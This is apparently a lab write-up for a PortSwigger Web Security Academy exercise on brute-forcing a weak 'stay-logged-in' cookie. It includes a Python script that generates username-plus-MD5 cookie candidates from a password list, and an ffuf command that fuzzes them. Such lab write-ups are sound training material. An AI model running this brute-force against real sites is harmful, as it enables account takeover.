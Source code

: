 # Brute-forcing a stay-logged-in cookie
[portsiwgger link](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)

# Lab description:

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing. 

We can understand how the cookie is generated because Burp show us the first step in the inspector:

![image](https://github.com/user-attachments/assets/3b403a30-35ca-49b3-a4f6-f3fe782cbbf7)

then we can verify that is the encoded password with
```bash
echo -n peter | md5sum
```
so we reverse the process and we get the steps to genrate the token

username: + MD5 hash of the password
and then encoded in Base64

generate the cookie list with pyhon:

```python
import hashlib
import base64

prefix = "carlos:"
with open("input.txt", "r") as file:
    for word in file:
        word = word.strip()  # Remove newline
        md5_hash = hashlib.md5(word.encode()).hexdigest()
        result = prefix + md5_hash
        base64_encoded = base64.b64encode(result.encode()).decode()
        print(base64_encoded)
```

and then use ffuf to fuzz the codes
```bash
ffuf -w tokens.txt -u "https://0a5e00200487c7fb81b1c634004a0066.web-security-academy.net/my-account?id=carlos" -b "stay-logged-in=FUZZ" -ac
```
we can use the cookie to login or revert the process and get the password.
